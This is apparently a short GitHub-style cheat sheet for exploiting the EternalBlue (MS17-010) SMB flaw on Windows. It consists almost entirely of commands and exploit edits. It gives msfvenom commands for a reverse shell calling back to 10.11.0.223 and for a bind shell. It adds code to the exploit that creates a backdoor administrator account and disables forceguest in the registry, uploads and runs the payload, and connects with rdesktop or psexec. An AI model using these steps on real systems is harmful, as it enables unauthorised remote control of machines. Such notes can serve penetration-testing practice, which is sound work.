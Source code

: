 # ETERNAL BLUE

## Get Exploit

```
searchsploit -m 42315
```

## Verify Access

```
smbclient -L \\target -N
```

If you have a share with guest access...

## Download MYSMB.py

Download to same folder as script
```
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

## Gen Payload

Reverse
```
msfvenom LHOST=10.11.0.223 LPORT=80 -p windows/shell_reverse_tcp -f exe-service -o blue.exe
```
Bind
```
msfvenom LPORT=4444 -p windows/shell_bind_tcp -f exe-service -o svc.exe
```

## Edit Exploit

Blank user
```
USERNAME="//"
PASSWORD=""
```

Change payload to add an admin user
```
	print('Adding user hacker')
	service_exec(conn, r'cmd /c net user hacker hacked2019 /add')
	service_exec(conn, r'cmd /c net localgroup Administrators hacker /add')
	service_exec(conn, r'reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v forceguest /t reg_dword /d 0 /f')
```

Then rdesktop to system
```
rdesktop -g 90% -u hacker -p hacked2019 $TARGET
```

or psexec stuff
```
python /usr/share/doc/python-impacket/examples/psexec.py
```

Change payload to send a bind shell or reverse shell
```

	smb_send_file(smbConn, './svc.exe', 'C', '/svc.exe')
	#smb_send_file(smbConn, './blue.exe', 'C', '/blue.exe')
	print('File copied to c:\...')
	service_exec(conn, r'cmd.exe /c c:\\svc.exe')
```